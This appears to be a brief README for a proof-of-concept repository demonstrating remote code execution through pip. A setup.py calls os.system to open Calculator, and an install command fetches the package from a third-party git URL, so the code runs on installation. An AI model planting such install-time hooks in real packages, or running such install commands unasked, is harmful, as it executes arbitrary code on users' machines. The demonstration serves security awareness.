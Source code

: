## RCE Via PIP

```a package-management system written in Python and is used to install and manage software packages```

This code in setup.py

```
import os
os.system("calc.exe")
```
Is used to open Calculator app , When users intall the pacakge with 

```
pip install git+https://github.com/slvignesh05/RCE-PIP.git
```

The Malicious codes pushed in the repo by attacker will be executed!.


